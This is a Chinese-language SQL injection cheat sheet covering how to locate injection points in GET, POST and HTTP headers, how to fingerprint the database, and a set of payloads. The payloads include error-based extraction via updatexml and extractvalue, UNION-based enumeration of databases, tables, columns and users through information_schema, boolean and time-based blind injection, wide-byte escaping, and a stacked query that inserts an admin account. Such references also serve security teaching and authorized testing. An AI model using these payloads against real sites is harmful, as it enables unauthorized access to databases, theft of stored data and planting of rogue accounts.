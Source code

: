 # 一、思路

## 1、判断注入点

在GET参数、POST参数、以及HTTP头部等，包括Cookie、Referer、XFF(X-Forwarded-for)、UA等地方尝试插入代码、符号或语句，尝试是否存在数据库参数读取行为，以及能否对其参数产生影响，如产生影响则说明存在注入点。

1）、GET 注入
提交数据的方式是 GET，注入点的位置在 GET 参数部分。例如有这样的一个URL：http://xxx.com/news.php?id=1，id是注入点。

2）、POST 注入
使用 POST 方式提交数据，注入点位置在 POST 数据部分，通常发生在表单中。

3）、HTTP 头部注入
注入点在 HTTP 请求头部的某个字段中。比如存在 User-Agent 字段中，Cookie 字段中等。

## 2、判断数据库类型
判断网站使用的是哪个数据库，常见数据库如：MySQL、MSSQL(SQLserver)、Oracle、Access、PostgreSQL、BD2等等。

* nmap 端口扫描

  | 数据库类型 | 默认端口号 |
  | ---------- | ---------- |
  | Oracle     | 1521       |
  | SQL Server | 1433       |
  | MySQL      | 3306       |
  | PostgreSql | 5432       |

| 网站类型 | 数据库类型         |
| -------- | ------------------ |
| asp      | SQL Server，Access |
| .net     | SQL Server         |
| php      | Mysql，PostgreSql  |
| java     | Oracle，Mysql      |

| 数据库类型                | 特有的系统表              |
| ------------------------- | ------------------------- |
| Oracle                    | SYS.USER_TABLES           |
| SQL Server                | SYSOBJECTS                |
| MySQL(MySQL版本在5.0以上) | INFORMATION_SCHEMA.TABLES |
| Access                    | MSYSOBJECTS               |

## 2、有回显

* 报错查询

  1. exp: and/or exp(~(select * from (select user () ) a) );
  2. updatexml: and/or(updatexml(1,concat(0x7e,(select database()),0x7e),1))
  3. extractvalue: extractvalue(1,concat(0x7e,version(),0x7e))

* 联合查询

  1. 确定列数：union select 1,2,3#
  2. 确定回显列：比如查出来 1，2 那就在1，2上进行查询
  3. 确定数据库：union select  database() ,2,3#
  4. 确定表：union select (select group_concat(table_name)) ,2,3 from information_schema.tables where table_schema=database()#
  5. 确定列：union select (group_concat(column_name)),2,3 from information_schema.columns where table_name=' '#
  6. 确定用户：union select 1,group_concat(user),3 from ' '#
     * information_schema.schemata           #information_schema下面的所有数据库名
     * information_schema.tables			#information_schema下面的所有表名
     * information_schema.columns		    #information_schema下面所有的列名
     * table_name										                             #表名
     * column_name										                         #列名
     * table_schema									                          #数据库名
     * schema_name                                                                                             #数据库列表名

* 基于报错bool盲注

  and ascii(substr(database(),1,1))=115

## 3、无回显

* 基于时间bool盲注

  1. 数据库：if(ascii(substr(database(),1,1))=114,1,sleep(5))#

  2. 表if(ascii(substr(select group_concat(table_name) from information_schema.tables where table_schema=database() LIMIT 0,1),1,1))=114,1,sleep(5))#

     LIMIT 0,1 → 获取第一张表（如 'users'） LIMIT 1,1 → 获取第二张表（如 'products'）

## 4、其他

* 宽字节：'被转义为\'/       %df'   
* 堆叠：id=1'; insert into users values('admin','password')#